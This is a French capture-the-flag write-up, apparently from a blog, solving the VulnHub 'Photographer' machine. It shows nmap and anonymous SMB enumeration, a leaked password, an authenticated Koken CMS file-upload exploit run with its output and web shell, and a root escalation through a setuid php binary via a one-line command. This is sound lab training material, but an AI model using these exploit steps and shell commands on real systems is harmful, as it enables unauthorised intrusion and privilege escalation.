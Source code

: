 ```yaml
---
title: "Solution du CTF Photographer de VulnHub"
tags: [CTF, VulnHub]
---
```


[Photographer](https://vulnhub.com/entry/photographer-1,519/) est un boot2root créé par [v1n1v131r4](https://twitter.com/@v1n1v131r4) et téléchargeable sur VulnHub.

```
Nmap scan report for 192.168.242.128
Host is up (0.00053s latency).
Not shown: 65531 closed tcp ports (reset)
PORT     STATE SERVICE     VERSION
80/tcp   open  http        Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Photographer by v1n1v131r4
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
8000/tcp open  http        Apache httpd 2.4.18
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-generator: Koken 0.22.24
|_http-title: daisa ahomi
MAC Address: 00:0C:29:27:57:E7 (VMware)
Service Info: Hosts: PHOTOGRAPHER, example.com

Host script results:
|_clock-skew: mean: 2h39m59s, deviation: 2h53m12s, median: 59m59s
|_nbstat: NetBIOS name: PHOTOGRAPHER, NetBIOS user: <unknown>, NetBIOS MAC: 000000000000 (Xerox)
| smb2-time: 
|   date: 2022-11-19T21:53:38
|_  start_date: N/A
| smb2-security-mode: 
|   311: 
|_    Message signing enabled but not required
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
|   Computer name: photographer
|   NetBIOS computer name: PHOTOGRAPHER\x00
|   Domain name: \x00
|   FQDN: photographer
|_  System time: 2022-11-19T16:53:37-05:00
```

## Talkie Talkie

On peut récupérer quelques partages via smbclient :

```bash
$ smbclient -U "" -N -L //192.168.242.128

        Sharename       Type      Comment
        ---------       ----      -------
        print$          Disk      Printer Drivers
        sambashare      Disk      Samba on Ubuntu
        IPC$            IPC       IPC Service (photographer server (Samba, Ubuntu))
SMB1 disabled -- no workgroup available
```

Il y a deux fichiers que l'on peut récupérer :

```bash
smbclient -U "" -N //192.168.242.128/sambashare
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Tue Jul 21 03:30:07 2020
  ..                                  D        0  Tue Jul 21 11:44:25 2020
  mailsent.txt                        N      503  Tue Jul 21 03:29:40 2020
  wordpress.bkp.zip                   N 13930308  Tue Jul 21 03:22:23 2020

                278627392 blocks of size 1024. 264268400 blocks available
```

Le premier est un mail d'un certain `Agi` pour `Daisa` :

```
Message-ID: <4129F3CA.2020509@dc.edu>
Date: Mon, 20 Jul 2020 11:40:36 -0400
From: Agi Clarence <agi@photographer.com>
User-Agent: Mozilla/5.0 (Windows; U; Windows NT 5.1; en-US; rv:1.0.1) Gecko/20020823 Netscape/7.0
X-Accept-Language: en-us, en
MIME-Version: 1.0
To: Daisa Ahomi <daisa@photographer.com>
Subject: To Do - Daisa Website's
Content-Type: text/plain; charset=us-ascii; format=flowed
Content-Transfer-Encoding: 7bit

Hi Daisa!
Your site is ready now.
Don't forget your secret, my babygirl ;)
```

Le second est une archive de Wordpress mais il n'y a pas le `wp-config.php` dedans.

## Patting myself on the back

Sur le port 8000 je trouve le CMS *Koken*, une appli web déjà croisée sur [le CTF The Office: Doomsday Device de VulnHub](https://github.com/devl00p/blog/blob/main/ctf_writeups/Solution%20du%20CTF%20The%20Office%3A%20Doomsday%20Device%20de%20VulnHub.md#kitty-cat). Il semble s'agir du site de Daisa Ahomi.

Le site fait mention d'un fichier *shell.php* qui a du être uploadé comme si c'était une image. L'URL du fichier est facile à obtenir mais la page retourne le message suivant :

> WARNING: Failed to daemonise. This is quite common and not fatal. Network is unreachable (101)

Après recherche le fichier utilisé semble être [pentestmonkey/php-reverse-shell · GitHub](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php). Ce script se base sur une adresse IP et un port hardcodé donc on ne peut rien faire avec.

Juste à l'intuition je trouve que l'interface admin du Koken est à l'adresse `/admin` et qu'on peut se connecter avec les identifiants `daisa@photographer.com` / `babygirl`.

Petite auto-tape dans le dos puisque sur le précédent CTF j'avais codé un exploit pour la faille d'upload arbitraire sur le *Koken* du coup ici je n'ai qu'à exécuter :

```bash
$ python3 koken_exploit.py http://192.168.242.128:8000/ daisa@photographer.com babygirl
Koken CMS 0.22.24 - Arbitrary File Upload (Authenticated)
-- devloop.users.sf.net 2022 --
Successfully authenticated as daisa ahomi
Enjoy your shell at http://192.168.242.128:8000//storage/originals/f6/70/eubfyyiektheoqhlbobx.php?cmd=id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Je rappatrie un reverse-ssh sur la VM. Le firewall semble filtrer des ports sortants mais ça fonctionne avec le port 80 (et sinon, les ports entrants de la VM ne sont pas filtrés).

Dans le dossier personnel de `daisa` se trouve le premier flag :

```bash
www-data@photographer:/home/daisa$ cat user.txt 
d41d8cd98f00b204e9800998ecf8427e
```

L'exécutable php est setuid root sur le système :

`-rwsr-xr-x 1 root root 4883680 Jul  9  2020 /usr/bin/php7.2`

L'exécutable donne bien l'effective UID 0 du moment qu'on reste dans PHP :

```bash
$ php -r "print(posix_getuid(). ' '. posix_geteuid());"
33 0
```

Si on exécute autre chose, c'est droppé :

```bash
$ php -r "system('id');"
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Pour ça il faut explicitement écraser l'UID et le GID :

```bash
$ php -r "posix_setuid(0); posix_setgid(0); system('dash -i');"
# id
uid=0(root) gid=0(root) groups=0(root),33(www-data)
# cd /root
# ls
proof.txt
# cat proof.txt
                                                                   
                                .:/://::::///:-`                                
                            -/++:+`:--:o:  oo.-/+/:`                            
                         -++-.`o++s-y:/s: `sh:hy`:-/+:`                         
                       :o:``oyo/o`. `      ```/-so:+--+/`                       
                     -o:-`yh//.                 `./ys/-.o/                      
                    ++.-ys/:/y-                  /s-:/+/:/o`                    
                   o/ :yo-:hNN                   .MNs./+o--s`                   
                  ++ soh-/mMMN--.`            `.-/MMMd-o:+ -s                   
                 .y  /++:NMMMy-.``            ``-:hMMMmoss: +/                  
                 s-     hMMMN` shyo+:.    -/+syd+ :MMMMo     h                  
                 h     `MMMMMy./MMMMMd:  +mMMMMN--dMMMMd     s.                 
                 y     `MMMMMMd`/hdh+..+/.-ohdy--mMMMMMm     +-                 
                 h      dMMMMd:````  `mmNh   ```./NMMMMs     o.                 
                 y.     /MMMMNmmmmd/ `s-:o  sdmmmmMMMMN.     h`                 
                 :o      sMMMMMMMMs.        -hMMMMMMMM/     :o                  
                  s:     `sMMMMMMMo - . `. . hMMMMMMN+     `y`                  
                  `s-      +mMMMMMNhd+h/+h+dhMMMMMMd:     `s-                   
                   `s:    --.sNMMMMMMMMMMMMMMMMMMmo/.    -s.                    
                     /o.`ohd:`.odNMMMMMMMMMMMMNh+.:os/ `/o`                     
                      .++-`+y+/:`/ssdmmNNmNds+-/o-hh:-/o-                       
                        ./+:`:yh:dso/.+-++++ss+h++.:++-                         
                           -/+/-:-/y+/d:yh-o:+--/+/:`                           
                              `-///////////////:`                               
                                                                                

Follow me at: http://v1n1v131r4.com


d41d8cd98f00b204e9800998ecf8427e
```

*Publié le 19 novembre 2022*

